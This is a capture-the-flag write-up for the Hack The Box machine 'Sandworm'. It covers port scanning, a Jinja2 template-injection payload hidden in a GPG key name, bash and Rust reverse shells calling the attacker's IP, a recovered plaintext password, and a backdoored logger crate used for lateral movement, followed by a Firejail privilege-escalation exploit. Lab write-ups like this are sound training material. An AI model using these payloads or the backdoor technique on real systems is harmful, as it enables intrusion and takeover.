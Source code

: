 # Sandworm

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Sandworm
- **Difficulty:** Medium
- **OS:** Linux

## Enumeration

### Port & Service Enumeration


<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 --rate=1000 -e tun0 10.10.11.218

Discovered open port 443/tcp on 10.10.11.218
Discovered open port 22/tcp on 10.10.11.218
Discovered open port 80/tcp on 10.10.11.218
```
</details>

<details>
<summary>nmap</summary>

```
nmap -sC -sV 10.10.11.218

22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Secret Spy Agency | Secret Security Service
|_http-server-header: nginx/1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

<details>
<summary>gobuster dir</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'https://ssa.htb/' --no-tls-validation

/contact              (Status: 200) [Size: 3543]
/about                (Status: 200) [Size: 5584]
/login                (Status: 200) [Size: 4392]
/view                 (Status: 302) [Size: 225] [--> /login?next=%2Fview]
/admin                (Status: 302) [Size: 227] [--> /login?next=%2Fadmin]
/guide                (Status: 200) [Size: 9043]
/pgp                  (Status: 200) [Size: 3187]
/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
/process              (Status: 405) [Size: 153]
```
</details>

## Foothold

### Web → `atlas` *(Firejail)*

#### Searching for Vulnerabilities

- the footer of the page says "Powered by Flask"
- the `/guide`-page has a section to verify signed PGP-messages
- when generating a new PGP keypair using `gpg --full-generate-key`, we can enter a name, an email-address and a comment; this information is displayed in a pop-up after successful verification by the site
- the output is not escaped, therefore a **Jinja2 template injection** is possible
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
    - https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#rce-escaping

#### Exploitation

1. Generate a GPG keypair using `gpg --full-generate-key`, set the name to the following value:
    ```py
    {{''.__class__.mro()[-1].__subclasses__()[439](request.form.input,shell=True,stdout=-1).communicate()[0].strip()}}
    ```
    - `‘'.__class__.mro()[-1]` gives access to `<class 'object'>`, 
    - subclass 439 is `<class 'subprocess.Popen'>`, which allows us to do a RCE
    - `request.form.input` gives us access to the POST parameter `input` of the request
    - → the value of the POST parameter will be executed

2. Export the public key and enter it on the `/guide`-page in the verification form:
    ```
    gpg --armor --export <email> > mykey.gpg
    ```
    - `<email>` is the email that was specified during key generation

3. Sign any message using the generated keypair and enter it on the website:
    ```
    gpg --armor --clear-sign -u <email> -o <output file> <message>
    ```

4. Start a reverse shell listener using netcat:
    ```
    nc -lvnp 9002
    ```

5. Verify the signed message using the form, but intercept the request using burpsuite. Add the POST parameter `input` with the url-encoded payload for a reverse shell:
    ```bash
    bash -c '/bin/sh -i >& /dev/tcp/<your ip>/9002 0>&1'
    # url-encoded as a POST paramter:
    &input=%62%61%73%68%20%2d%63%20%27...
    ```

6. You should now have reverse shell access for the user `atlas`.
    - available commands very limited, hardly any write permissions
    - `cat /proc/1/cgroup` shows that we are in a [Firejail](https://github.com/netblue30/firejail) environment


## Lateral Movement

### `atlas` → `silentobserver` 🚩

#### Searching for Vulnerabilities

- `/etc/passwd` shows, that there is another user `silentobserver` with a home directory

#### Exploitation

1. `/home/atlas/.config/httpie/sessions/localhost_5000/admin.json` contains credentials for user `silentobserver`:
    ```json
    "auth": {
            "password": "quietLiketheWind22",
            "type": null,
            "username": "silentobserver"
        },
    ```

2. With these credentials, an SSH connection is possible for the user `silentobserver`, who has the user flag in his home directory 🚩
    - user is still in `jailer` group


### `silentobserver` → `atlas` *(unrestricted)*

#### Searching for Vulnerabilities

- the `/opt/tipnet/target/debug/tipnet` binary has the SUID bit set for user `atlas`
- the source code for `tipnet` can be found at `/opt/tipnet/src/main.rs`
- `main.rs` shows, that crate `/opt/crates/logger/src/logger.rs` gets imported
- `silentobserver` has write access to `logger.rs`
- there is a cron job running, which periodically compiles and runs `tipnet`
 
#### Exploitation

1. Edit `/opt/crates/logger/src/logger.rs` and insert the code for a reverse shell
    - https://stackoverflow.com/questions/48958814/what-is-the-rust-equivalent-of-a-reverse-shell-script-written-in-python
    - <details>
        <summary>modified logger.rs</summary>
        
        ```rust
        extern crate chrono;

        use std::fs::OpenOptions;
        use std::io::Write;
        use chrono::prelude::*;
        use std::net::TcpStream;
        use std::os::unix::io::{AsRawFd, FromRawFd};
        use std::process::{Command, Stdio};

        pub fn log(user: &str, query: &str, justification: &str) {
                let s = TcpStream::connect("<your ip>:9002").unwrap();
            let fd = s.as_raw_fd();
            Command::new("/bin/sh")
                .arg("-i")
                .stdin(unsafe { Stdio::from_raw_fd(fd) })
                .stdout(unsafe { Stdio::from_raw_fd(fd) })
                .stderr(unsafe { Stdio::from_raw_fd(fd) })
                .spawn()
                .unwrap()
                .wait()
                .unwrap();

            let now = Local::now();
            let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
            let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

            let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
                Ok(file) => file,
                Err(e) => {
                    println!("Error opening log file: {}", e);
                    return;
                }
            };

            if let Err(e) = file.write_all(log_message.as_bytes()) {
                println!("Error writing to log file: {}", e);
            }
        }
        ```
        
        </details>


2. Start a reverse shell listener using netcat:
    ```
    nc -lvnp 9002
    ```

3. After a while, we get reverse shell access for `atlas` in an unrestricted environment.

## Privilege Escalation

### `atlas` → `root` 🏁

#### Searching for Vulnerabilities

- An [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) exists for    Firejail 0.9.68, which can be used for privilege escalation

#### Exploitation

1. Open a second reverse shell for `atlas` like explained above.
2. Download the [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) on the target machine, e.g. using an python http server and wget.
3. Run the exploit using `chmod +x exploit.py && python3 exploit.py`.
4. In the second reverse shell, first run `firejail --join=<id>` *(the exploit will tell you the exact command)*, then `su -`.
5. We now have shell access for `root` and can claim the root flag! 🏁

